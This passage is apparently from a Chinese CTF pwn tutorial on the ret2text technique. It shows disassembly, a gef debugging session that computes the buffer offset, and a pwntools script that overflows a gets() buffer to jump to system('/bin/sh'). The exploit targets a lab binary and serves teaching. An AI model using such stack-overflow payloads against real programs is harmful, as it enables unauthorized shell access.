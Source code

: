 ```asm
.text:08048638                 jnz     short locret_8048646
.text:0804863A                 mov     dword ptr [esp], offset command ; "/bin/sh"
.text:08048641                 call    _system
```

在secure函数又发现了存在调用system("/bin/sh")的代码，那么如果我们直接控制程序返回至0x0804863A，那么就可以得到系统的shell了。

下面就是我们如何构造payload了，首先需要确定的是我们能够控制的内存地址距离main函数的返回地址的字节数。

```asm
.text:080486A7                 lea     eax, [esp+1Ch]
.text:080486AB                 mov     [esp], eax      ; s
.text:080486AE                 call    _gets
```

可以看到该字符串是通过相对于esp的索引，所以我们需要进行调试，将断点下在call处，查看esp，ebp，如下

```shell
gef➤  b *0x080486AE
Breakpoint 1 at 0x80486ae: file ret2text.c, line 24.
gef➤  r
There is something amazing here, do you know anything?

Breakpoint 1, 0x080486ae in main () at ret2text.c:24
24	    gets(buf);
───────────────────────────────────────────────────────────────────────[ registers ]────
$eax   : 0xffffcd5c  →  0x08048329  →  "__libc_start_main"
$ebx   : 0x00000000
$ecx   : 0xffffffff
$edx   : 0xf7faf870  →  0x00000000
$esp   : 0xffffcd40  →  0xffffcd5c  →  0x08048329  →  "__libc_start_main"
$ebp   : 0xffffcdc8  →  0x00000000
$esi   : 0xf7fae000  →  0x001b1db0
$edi   : 0xf7fae000  →  0x001b1db0
$eip   : 0x080486ae  →  <main+102> call 0x8048460 <gets@plt>
```

可以看到esp为0xffffcd40，ebp为具体的payload如下0xffffcdc8，同时s相对于esp的索引为[esp+0x1c]，所以，s的地址为0xffffcd5c，所以s相对于ebp的偏移为0x6C，所以相对于返回地址的偏移为0x6c+4。

最后的payload如下：

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2text')
target = 0x804863a
sh.sendline('A' * (0x6c+4) + p32(target))
sh.interactive()
```

## 题目

# ret2shellcode
